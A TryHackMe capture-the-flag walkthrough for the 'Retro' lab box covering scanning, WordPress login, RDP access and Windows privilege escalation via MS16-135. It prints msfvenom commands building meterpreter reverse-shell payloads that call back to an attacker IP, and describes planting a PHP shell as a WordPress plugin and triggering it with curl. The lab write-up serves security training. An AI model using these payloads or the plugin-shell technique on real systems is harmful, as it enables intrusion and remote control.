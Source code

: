 *2021-09-23*

*kimm3*

# Walkthrough: Retro
Platform: TryHackMe

Difficulty: Hard

- [Link](https://tryhackme.com/room/retro)

![info](assets/markdown-img-paste-20210923113142375.png)
## Setup
![ll](assets/markdown-img-paste-20210826112245589.png)

```
script history/enum1;
export IP=10.10.123.245;
```
## Scans and enumeration
`sudo nmap $IP -p- -A -Pn -v -oA scans/nmap-init`

![nmap-init](assets/markdown-img-paste-20210923142813789.png)

Http and rdp.

![index-page](assets/markdown-img-paste-20210923141823876.png)

`dirsearch -u $IP --recursive -R 1 -o scans/index-init.md --format=md --random-agent`

![dirsearch-init](assets/markdown-img-paste-20210923142908628.png)

`ffuf -u "http://10.10.123.245/FUZZ" -w sl/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -of md -o scans/fuff-index-dir.md `

![retro-index](assets/markdown-img-paste-20210923143406547.png)

A blog about retro games.

![wp](assets/markdown-img-paste-2021092314344433.png)

Wordpress page. Wp-login exposed.

![wade-exists](assets/markdown-img-paste-20210923143541135.png)

Wade is a valid user. We also have a possible hint about the password.

![possible-hint](assets/markdown-img-paste-2021092314363534.png)

Started viewing a trailer for the movie and at 1:29:

![password](assets/markdown-img-paste-20210923144201594.png)

![wpadmin](assets/markdown-img-paste-20210923144352739.png)

Success. Did a reverse search for the password and it exists in most common wordlists, but it would take a while.

![reverse-password-search](assets/markdown-img-paste-20210923144257469.png)

![note-pw](assets/markdown-img-paste-20210925054122114.png)

Once in, I saw a note/comment with the password as well. So there's actually a comment with the password on site:

![comment-pw](assets/markdown-img-paste-20210925071331140.png)
## Foothold and further enumeration
The wade credentials also works as a local user account with rdp privs, so we can use a rdp client and login.

`xfreerdp /v:$IP /u:Wade /drive:local,/home/kali/retro/upload`

![usertxt](assets/markdown-img-paste-20210925070925710.png)

User.txt is on the desktop.

### wp-admin
I map a folder with xfreerdp to transfer files, but another way of uploading files is through the wp-admin site. This would be the way to get a shell if Wade only was a wordpress user and not a local account with rdp enabled.

We can upload a zip as a plugin. The files has to be inside a zipfile, and there has to be at least one php file with a header comment. This is what the 'wp_admin_shell_upload' module in metasploit does.

`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.8.210.115 LPORT=443 -f raw -o merphp.php`

`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.8.210.115 LPORT=443 -f exe -o merp.exe`

![zipl](assets/markdown-img-paste-2021092504421480.png)

- merphp.php = PHP meterpreter to gain initial access
- merp.exe = Since PHP merp is limited, we can use this for extra functionality(requires a shell to trigger though)
- nc.exe = Handy to have on the machine
- winPEAS.bat for further enumeration/vulnscanning.

![headmerphp](assets/markdown-img-paste-20210925044252149.png)

Helpful links for the wp-admin uploads:
- https://forum.hackthebox.eu/discussion/3508/wordpress-admin-shell-upload-manual-method
- https://developer.wordpress.org/plugins/plugin-basics/header-requirements/

![plugin-installed](assets/markdown-img-paste-2021092403304526.png)

The url to trigger the php-merp is `<wordpress>/wp-content/plugins/<zipfilename>/<shell-name>.php`.

`curl "http://10.10.164.32/retro/wp-content/plugins/fjdksla/merphp.php"`

![msf-foothold](assets/markdown-img-paste-20210924031120788.png)

In the first session, trigger the .exe file with `execute -f merp.exe` after setting up a listener with exploit/multi/handler.

![merpsessions](assets/markdown-img-paste-20210924034839471.png)

So we now have access to the web server service account and the wade account.

### Further enumeration
![tokens](assets/markdown-img-paste-20210925045950326.png)

We have impersonation tokens but not for any admin or admin groups.

![usersps](assets/markdown-img-paste-20210925050143167.png)

Administrator is our next target.

Checking services and listening ports.

![ps-nettcp](assets/markdown-img-paste-20210925050253703.png)

![ps-services](assets/markdown-img-paste-20210925050652781.png)

To get meterpreter as Wade we can simply click the executable from the rdp session.

![merp-wade](assets/markdown-img-paste-20210925065540311.png)

![no-tokens-wade](assets/markdown-img-paste-20210925065649168.png)

No impersonation possibilites as Wade either.

## Privilege Escalation
![chrome-bookmark](assets/markdown-img-paste-20210925071446621.png)

Wade has a bookmark for a CVE, could be the one - could be a rabbit hole. Vuln is really easy:

- https://www.youtube.com/watch?v=3BQKpPNlTSo

The file used in the video is in wades recycle bin, you can also download it from a bunch of sites(or use any executable with a lnik in the 'Issued by' I guess).

![cve-fail](assets/markdown-img-paste-20210925074831596.png)

I get this far, not being able to select a browser. Having read some walkthroughs after completion of the box, this seems like an intentional way of messing with us. I gave this up here but google for walkthroughs to get it working.

![ms16-135](assets/markdown-img-paste-20210925085858708.png)

Did a run with windows-exploit-suggester, it suggest MS16-135. Downloaded a powershell script for the exploit from SecWiki and it worked.

![systemandroottxt](assets/markdown-img-paste-20210925085025611.png)

**Note**

There are other vulnerabilities to privesc as well, google for other writeups or use the ones linked in the room.

